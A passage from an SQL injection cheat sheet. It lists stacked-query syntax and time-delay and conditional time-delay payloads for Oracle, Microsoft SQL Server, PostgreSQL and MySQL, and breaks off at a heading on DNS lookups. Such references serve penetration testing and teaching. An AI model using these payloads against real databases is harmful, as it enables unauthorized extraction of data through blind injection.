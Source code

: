 2. PostgreSQL, MySQL

```sql
select 'query1'; select 'query2'
```

### Time delays

1. Oracle

```sql
dbms_pipe.receive_message(('a'),10)
```

2. Microsoft

```sql
waitfor delay '0:0:10'
```

3. PostgreSQL

```sql
pg_sleep(10)
```

4. MySQL

```sql
sleep(10)
```

### Conditional time delays

1. Oracle

```sql
select case when('CONDITION') then 'a'||dbms_pipe.receive_message(('a'),10) else NULL end from dual
```

2. Microsoft

```sql
if ('CONDITION') waitfor delay '0:0:10'
```

3. PostgreSQL

```sql
select case when('CONDITION') then pg_sleep(10) else pg_sleep(0) end
```

4. MySQL

```sql
select if('CONDITION',sleep(10),'a') 
```

### DNS lookup

1. Oracle
